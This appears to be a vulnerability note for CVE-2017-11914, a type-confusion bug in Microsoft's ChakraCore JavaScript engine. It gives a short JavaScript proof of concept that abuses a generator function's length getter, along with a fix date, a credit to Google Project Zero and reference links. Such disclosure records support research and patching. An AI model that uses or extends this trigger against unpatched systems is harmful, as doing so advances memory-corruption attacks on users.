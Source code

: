 # CVE-2017-11914

- Fix: Jan 2018
- Credit: lokihardt of Google Project Zero

## PoC

```javascript
function* f() {
}

let g;
f.__defineGetter__('length', function () {
    g = this;  // g == "scriptFunction"
});


f.length;

g.call(0x1234, 0x5678);  // type confusion
```

## Reference

- [Microsoft](https://portal.msrc.microsoft.com/en-us/security-guidance/advisory/CVE-2017-11914)
- [Google Project Zero](https://bugs.chromium.org/p/project-zero/issues/detail?id=1403)
- [Fix](https://github.com/Microsoft/ChakraCore/commit/b488088279391deaaacfce4f0756caaefc284109)